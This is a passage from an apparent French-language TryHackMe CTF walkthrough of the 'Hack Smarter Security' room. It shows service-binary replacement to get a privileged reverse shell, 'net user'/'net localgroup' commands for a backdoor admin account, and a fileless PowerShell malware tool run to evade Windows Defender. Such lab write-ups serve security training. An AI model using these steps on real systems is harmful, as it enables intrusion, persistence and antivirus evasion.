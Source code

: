 Le reverse shell est transféré à la cible après la compilation.

![Malicious executable file on the target](/images/THM-HackSmarterSecurity/malicious-exe.png)

Après le redémarrage du service avec `Start-Service -Name "spoofer-scheduler"` nous obtenons un reverse shell avec un compte privilégié.

![Privileged shell obtained](/images/THM-HackSmarterSecurity/privileged-shell.png)

Mais le shell est instable et expire rapidement. Étant donné que le service ne démarre pas correctement (à cause du remplacement du fichier), Windows l'arrête prématurément.

![Service cannot be started and gets timed out](/images/THM-HackSmarterSecurity/service-error.png)

Pour établir la persistance, un nouvel utilisateur peut rapidement être créé et ajouté au groupe `administrators` pour obtenir les privilèges d'administrateur.

```
net user <username> <password> /add
net localgroup administrators <username> /add
```
![Persistence is achieved via the creation of a new privileged user](/images/THM-HackSmarterSecurity/persistence-account.png)

Le compte nouvellement créé peut être utilisé pour accéder au système via SSH.

![Privileges of the newly created admin account](/images/THM-HackSmarterSecurity/persistence-account-privs.png)

#### Which organizations is the Hack Smarter group targeting next? 

Avec les privilèges d'administrateur, nous pouvons accéder à la liste des prochaines cibles à l'adresse `C:\Users\Administrator\Desktop\Hacking-Targets\hacking-targets.txt`.

![Hackers' targets list](/images/THM-HackSmarterSecurity/hacking-targets.png)

### Utilisation d'un fileless malware 

Une autre méthode pour échapper à Windows Defender consiste à utiliser [SecUp](https://github.com/daniellowrie/update_script). Il s'agit d'un "fileless malware" qui contourne Windows Defender en utilisant PowerShell et l'obscurcissement". Vous pouvez consulter la [vidéo YouTube](https://www.youtube.com/watch?v=LjoAV3O40og&ab_channel=DanielLowrie) pour obtenir des explications.

1. Cloner le répertoire 

```
git clone https://github.com/daniellowrie/update_script
```

2. Démarrer le programme. Il configure également un serveur HTTP pour transférer les fichiers malveillants.

```
go run SecUp.go 10.2.104.130
```

![go run command](/images/THM-HackSmarterSecurity/go-run.png)
